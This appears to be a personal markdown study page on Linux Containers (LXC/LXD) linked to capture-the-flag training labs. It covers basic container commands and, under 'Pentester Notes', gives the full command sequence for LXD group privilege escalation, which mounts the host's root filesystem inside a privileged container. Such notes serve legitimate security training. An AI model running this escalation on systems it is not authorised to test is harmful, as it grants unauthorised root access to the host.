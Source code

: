 # Linux Containers (LXC)

[![linuxfundamentals](../../../../cybersecurity/_badges/htb/linuxfundamentals.svg)](https://academy.hackthebox.com/course/preview/linux-fundamentals)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linuxsystemhardening](../../../../cybersecurity/_badges/thmp/linuxsystemhardening.svg)](https://tryhackme.com/room/linuxsystemhardening)
[![adventofcyber2](../../../../cybersecurity/_badges/thm/adventofcyber2/day24.svg)](https://tryhackme.com/room/adventofcyber2)

<div class="row row-cols-lg-2"><div>

[Linux Containers](https://linuxcontainers.org/) (LXC) is a Linux-only virtualization method to run multiple Linux systems using the host Linux kernel.

[Docker](../docker/index.md) was first built over LXC. It provides additional features and a simplified interface. They share the notion of 'image' and 'container'.

LXC can only be used on Linux hosts. Users part of the `lxd` group can call any commands without sudo. 

```shell!
$ lxd init
$ lxc image list # list downloaded images
```

If you have internet access, you can download an image:

```shell!
$ lxc launch ubuntu:22.04 container_name
```
</div><div>

Alternatively, you can import an image from a file. You can build an alpine image <small>(~3Mb)</small> using [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) <small>(0.2k ⭐, 2021 🪦)</small>.

```shell!
$ git clone https://github.com/saghul/lxd-alpine-builder
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Transfer the generated tar.gz onto the target and use:

```ps
$ lxc image import xxx.tar.gz --alias image_name
```
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### LXD Group Privilege Escalation

[![linuxprivilegeescalation](../../../../cybersecurity/_badges/hacktricks/linux_hardening/privilege_escalation/interesting_groups_linux_pe/lxd_privilege_escalation.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![adventofcyber2](../../../../cybersecurity/_badges/thm/adventofcyber2/day24.svg)](https://tryhackme.com/room/adventofcyber2)
[![gamingserver](../../../../cybersecurity/_badges/thm-p/gamingserver.svg)](https://tryhackme.com/room/gamingserver)
[![allinonemj](../../../../cybersecurity/_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)

A member of the LXD group can be leveraged for [privilege escalation](/cybersecurity/red-team/s4.privesc/index.md). You will mount the folder `/` within the container inside `/mnt/hostfs/` allowing you to access any file or edit any file.

* `image_name` is the name of the image you want to use
* `container_name` is a random name, such as `pwned`
* `device_name` doesn't matter, you can use `pwned` too

```shell!
host$ lxc init image_name container_name -c security.privileged=true
host$ lxc config device add container_name device_name disk source=/ path=/mnt/hostfs recursive=true
host$ lxc start container_name
host$ lxc exec container_name /bin/sh
container$ cd /mnt/hostfs/
```
</div><div>

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ sudo apt-get install lxc lxc-utils -y
$ sudo lxc-create -n xxx -t yyy
$ lxc-ls
$ lxc-start/stop/restart -n xxx
$ lxc-config -n xxx -s storage/network/security
$ lxc-attach -n xxx [-f /path/to/share]
```
</div><div>
</div></div>